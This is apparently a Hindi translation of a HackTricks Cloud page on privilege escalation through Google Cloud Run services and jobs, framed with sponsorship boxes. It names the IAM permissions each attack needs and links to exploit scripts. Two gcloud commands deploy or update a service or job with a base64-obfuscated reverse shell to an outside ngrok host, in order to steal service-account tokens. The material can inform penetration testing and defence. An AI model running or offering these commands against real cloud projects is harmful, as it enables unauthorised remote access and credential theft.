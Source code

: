 # GCP - निजीगती उन्नयन चलाएं

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके।

</details>

## चलाएं

### `run.services.create`, `iam.serviceAccounts.actAs`

_cloudfunctions.functions.create_ विधि की तरह, यह विधि एक **नया क्लाउड रन सेवा** बनाती है जो जब आह्वानित किया जाता है, तो सर्वर की मेटाडेटा API तक पहुंच करके **सेवा खाता के** एक्सेस टोकन को लौटाती है। एक क्लाउड रन सेवा तैनात की जाएगी और उस पर एक अनुरोध किया जा सकता है ताकि टोकन प्राप्त किया जा सके।

इस विधि के लिए निम्नलिखित **अनुमतियां आवश्यक** होती हैं:

* _run.services.create_
* _iam.serviceaccounts.actAs_
* _run.services.setIamPolicy_ **या** _run.routes.invoke_

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image8-1000x503.png)

इस विधि में एक सम्मिलित डॉकर इमेज का उपयोग किया जाता है जिसे सही ढंग से उपयोग करने के लिए निर्मित और होस्ट किया जाना चाहिए। इमेज का उपयोग करके क्लाउड रन को सेवा खाता के एक्सेस टोकन के साथ प्रतिक्रिया देने के लिए क्लाउड रन को कहने के लिए डिजाइन किया गया है।

इस विधि के लिए उपयोगी तकनीक [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) और डॉकर इमेज [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage) मिल सकती है।

किसी कारण से, सेवा बनाने के लिए `gcloud run deploy` का उपयोग करते समय **अद्यतन अनुमति की आवश्यकता होती है**। [**यहां एक उदाहरण देखें**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh)।

### `run.services.update`, `iam.serviceAccounts.actAs`

पिछले वाले की तरह ही लेकिन सेवा को अपडेट करते हुए
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

खुद को पहले की अनुमतियाँ दें।

### `run.jobs.create`,`run.jobs.run`,(`run.jobs.get`)

एक जॉब शुरू करें जिसमें एक रिवर्स शेल हो, जिससे आप कमांड में दिए गए सेवा अकाउंट को चुरा सकते हैं। आप एक [**एक्सप्लॉइट यहाँ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh) ढूंढ सकते हैं।

### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

पिछले तरीके की तरह, एक जॉब को **अपडेट करें और SA को अपडेट करें**, **कमांड** को और इसे **चलाएं**:
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

खुद को पिछली अनुमतियाँ दें।

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>
